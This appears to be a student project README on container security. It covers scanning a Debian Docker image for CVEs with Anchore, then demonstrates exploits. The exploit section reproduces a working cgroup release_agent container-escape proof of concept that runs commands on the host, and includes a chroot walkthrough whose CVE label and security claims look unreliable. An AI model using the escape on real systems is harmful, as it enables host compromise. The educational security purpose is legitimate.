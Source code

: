 # Securing_Open_Source_Components_on_Containers
Code for HPE Project  

Team Members:
1. Prishita Ray- 17BCE2405
2. Tanmayi Nandan- 17BCI0039
3. V Bhavyashri Vedula- 17BCI0115
4. Saripella Vivekananda Verma- 17BCI0104  

Mentor:
Prof. K.S.Umadevi

Steps to install Docker on Linux Ubuntu 18.04 is available at the following link:
https://www.digitalocean.com/community/tutorials/how-to-install-and-use-docker-on-ubuntu-18-04

Tools that we can use for scanning: Anchore, Clair, Dadga, OpenSCAP, Sysdig Falco
https://opensource.com/article/18/8/tools-container-security 

## Vulnerabilities reported by Anchore-Engine using CLI on Docker Debian Image

The Vulnerability Report was obtained using the following procedure:
1. Upgrade Windows 10 Home Edition to Windows 10 Education Edition
2. Install Docker Desktop for Windows and configure
3. Go to the following webpage: [Anchore Docker YAML file](https://docs.anchore.com/current/docs/engine/quickstart/docker-compose.yaml), right-click and save as docker-compose.yaml to your Desktop
4. Start Docker Desktop
5. Open Windows Powershell (Not as admin)
6. Move to your Desktop folder using cd/Desktop
7. Execute the command: 

		docker-compose up -d

8. Install the Command Line Interface (CLI) using 

		pip install anchorecli

9. Type and execute command: 

		anchore-cli --u admin --p foobar --url http://localhost:8228/v1 image add docker.io/library/debian:latest

to scan the debian Docker container for vulnerabilities.

10. Next execute: 

		anchore-cli --u admin --p foobar --url http://localhost:8228/v1 image wait docker.io/library/debian:latest

Wait for the status to change from Analyzing to Analyzed
11. To get the list of images being scanned for vulnerabilities, execute: 

		anchore-cli --u admin --p foobar --url http://localhost:8228/v1 image list

![alt text](https://github.com/PRISHIta123/Securing_Open_Source_Components_on_Containers/blob/master/image_list.JPG)

12. For image overview and summary information, execute: 

		anchore-cli --u admin --p foobar --url http://localhost:8228/v1 image get docker.io/library/debian:latest

![alt text](https://github.com/PRISHIta123/Securing_Open_Source_Components_on_Containers/blob/master/debian_details.JPG)


13. Finally to get the list of vulnerabilities, run this command: 

		anchore-cli --u admin --p foobar --url http://localhost:8228/v1 system feeds list

It will return the following output:

![alt text](https://github.com/PRISHIta123/Securing_Open_Source_Components_on_Containers/blob/master/vulnerabilities.JPG)

14. Details of CVE vulnerabilities reported are as follows:

		anchore-cli --u admin --p foobar --url http://localhost:8228/v1 image vuln docker.io/library/debian:latest os

CVE reports:

![alt text](https://github.com/PRISHIta123/Securing_Open_Source_Components_on_Containers/blob/master/cve_tags1.JPG)

![alt text](https://github.com/PRISHIta123/Securing_Open_Source_Components_on_Containers/blob/master/cve_tags2.JPG)

![alt text](https://github.com/PRISHIta123/Securing_Open_Source_Components_on_Containers/blob/master/cve_tags3.JPG)

15. Image Policy Evaluation:

		anchore-cli --u admin --p foobar --url http://localhost:8228/v1 evaluate check docker.io/library/debian:latest

![alt text](https://github.com/PRISHIta123/Securing_Open_Source_Components_on_Containers/blob/master/policy.JPG)  

## Exploiting Vulnerabilities on Docker Containers

Samples provided-  
1. Rancher Server: 
https://github.com/rapid7/metasploit-framework/blob/master/documentation/modules/exploit/linux/http/rancher_server.md  
2. Unprotected TCP socket: 
https://github.com/rapid7/metasploit-framework/blob/master/documentation/modules/exploit/linux/http/docker_daemon_tcp.md  
3. Apparmor: 
https://github.com/opencontainers/runc/issues/2128  

Other CVE details- https://www.cvedetails.com/vendor/13534/Docker.html

### Exploiting Chroot (Change root) CVE_2015_6240

In this vulnerability, a hacker can create his own new root directory, different from the original, or gain access to the directory, for which he previously had write access. The below steps describe how this vulnerability can be exploited by an unauthorized user:  

1. Invoke and Run the ubuntu bionic 18.04 docker container from the Windows Powershell by pulling its image from Docker Hub 

		docker run -it --name docker-host --rm --privileged ubuntu:bionic

2. Check the ubuntu version of the container after you are in root

		cat /etc/issue/

![alt text](https://github.com/PRISHIta123/Securing_Open_Source_Components_on_Containers/blob/master/ubuntu_version.JPG) 

3. Create a new folder for your new root directory from the original

		mkdir /my-new-root                                                                                      

4. Create a new file within the new root directory titled secret.txt

		 echo "my super secret thing" >> /my-new-root/secret.txt                                                                          

5. To ensure that a bash file is present for the new root directory copy it from the original

		cp /bin/bash /bin/ls /my-new-root/bin/                                                                              

Also, add create lib and lib64 directories to bash to contain libraries for x86 and 64 bit systems:

		mkdir /my-new-root/lib /my-new-root/lib64                                                                                

6. To copy the libraries within bash, first list them out:

		ldd /bin/bash                                                                                     

![alt text](https://github.com/PRISHIta123/Securing_Open_Source_Components_on_Containers/blob/master/bin_bash.JPG)

7. Then copy them to the new root directory /lib and /lib64 

		cp /lib/x86_64-linux-gnu/libtinfo.so.5 /lib/x86_64-linux-gnu/libdl.so.2 /lib/x86_64-linux-gnu/libc.so.6 /my-new-root/lib                                                                         

		cp /lib64/ld-linux-x86-64.so.2 /my-new-root/lib64                                                                                

8. Repeat the same with the files listed in ls

		ldd /bin/ls                 

![alt text](https://github.com/PRISHIta123/Securing_Open_Source_Components_on_Containers/blob/master/bin_ls.JPG)

		cp /lib/x86_64-linux-gnu/libtinfo.so.5 /lib/x86_64-linux-gnu/libdl.so.2 /lib/x86_64-linux-gnu/libc.so.6 /my-new-root/lib                                                                         

		cp /lib/x86_64-linux-gnu/libpthread.so.0 /my-new-root/lib               

		cp /lib64/ld-linux-x86-64.so.2 /my-new-root/lib64 

9. Change the current root directory by running the command chroot

		chroot /my-new-root bash 

10. To see the contents of the new root directory, use ls. Everything in the original directory can be seen here. But when we try to check the present working directory it shows /, implying that it considers the new root directory as the actual one, instead of the original, and there is no way of navigating back to it, leading to a compromise on authentication and hence, a vulnerability. 




### Exploiting Chmod (Change mode) EDB-ID:47147

Reference: https://www.exploit-db.com/exploits/47147

# On the host
	docker run --rm -it --cap-add=SYS_ADMIN --security-opt apparmor=unconfined ubuntu bash

# In the container
	mkdir /tmp/cgrp && mount -t cgroup -o rdma cgroup /tmp/cgrp && mkdir /tmp/cgrp/x

	echo 1 > /tmp/cgrp/x/notify_on_release
	host_path=`sed -n 's/.*\perdir=\([^,]*\).*/\1/p' /etc/mtab`
	echo "$host_path/cmd" > /tmp/cgrp/release_agent

	echo '#!/bin/sh' > /cmd
	echo "ps aux > $host_path/output" >> /cmd
	chmod a+x /cmd

	sh -c "echo \$\$ > /tmp/cgrp/x/cgroup.procs"	
	
	
![alt text](https://github.com/PRISHIta123/Securing_Open_Source_Components_on_Containers/blob/master/jail.JPG)
